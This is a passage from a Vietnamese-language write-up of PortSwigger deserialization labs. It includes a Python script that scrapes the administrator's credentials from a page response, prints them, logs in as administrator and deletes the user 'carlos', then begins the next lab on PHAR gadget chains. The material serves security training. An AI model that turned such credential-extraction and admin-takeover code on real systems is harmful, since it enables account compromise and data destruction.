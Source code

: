 ```python!
response = session.get(
    url,
    cookies=cookies,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
pattern = r"administrator~\w{20}"
match = re.search(pattern, response.text)
account = match.group()
username = account.split('~')[0]
password = account.split('~')[1]
print("tên dăng nhập là: ", username)
print("mật khẩu là: ", password)

data= {
    'username' : username,
    'password' : password,
}
response = session.post(
    url + "/login",
    data=data,
    verify=False,
)

response = session.get(
    url + "/admin/delete?username=carlos",
    verify=False,
)
soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/Bk9dZ5lsp.png)

![image](https://hackmd.io/_uploads/BkAL-5ljT.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này

![image](https://hackmd.io/_uploads/HJxR2Kxj6.png)

## 7. Lab: Using PHAR deserialization to deploy a custom gadget chain

link: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-phar-deserialization-to-deploy-a-custom-gadget-chain

### Đề bài

![image](https://hackmd.io/_uploads/rya5F3lo6.png)
